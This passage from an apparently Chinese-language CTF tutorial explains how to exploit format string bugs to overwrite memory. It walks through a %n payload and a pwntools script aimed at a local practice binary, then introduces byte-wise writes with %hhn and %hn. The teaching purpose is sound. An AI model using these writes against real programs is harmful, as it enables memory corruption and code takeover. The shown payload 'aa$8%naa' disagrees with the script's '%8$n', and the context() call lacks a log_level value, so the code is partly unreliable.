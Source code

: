 ### 覆盖任意地址内存

#### 覆盖小地址

如果我们需要修改内存为**小于机器字长的数字**，如程序中的 a 需要覆盖为 2。此时不能将地址放在最开头，否则将直接占用 4 或 8 个字长，必然大于 0. 所以我们可以改变地址在 payload 的位置，同时需要修改我们使用的栈上的偏移。例如此题的 payload 构造：

~~~c
aa$8%naa[addr of a]
~~~

在占位符 `%8$n` 前使用 `aa` 保证修改的值为 2 ，而 offset 修改为 8 是由于 `aa$8` 和 `%naa` 各占了 4 字节，而 `aa$8` 的偏移为 6，进而推断出 a 的地址在栈上的偏移应该为 8。

最后 a 的地址**0x804C018**可以在 ida 中找到

exp：

~~~python
from pwn import *

context(arch='i386',os='linux',log_level)

p = process('./fmtstr')

payload = b'aa%8$naa' + p32(0x804C018)

p.sendline(payload)
~~~

结果：

![fmtstr-res2.png](./assets/fmtstr-res2.png)

#### 覆盖大地址

首先，所有的变量在内存中都是以字节进行存储的。此外，在 x86 和 x64 的体系结构中，变量的存储格式为以小端存储，即最低有效位存储在低地址。同时，格式化字符串存在如下两个标志

- hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数
- h 对于整数类型，printf期待一个从short提升的int尺寸的整型参数

所以说，我们可以利用 %hhn 向某个地址写入单字节，利用 %hn 向某个地址写入双字节。这里，我们以单字节为例
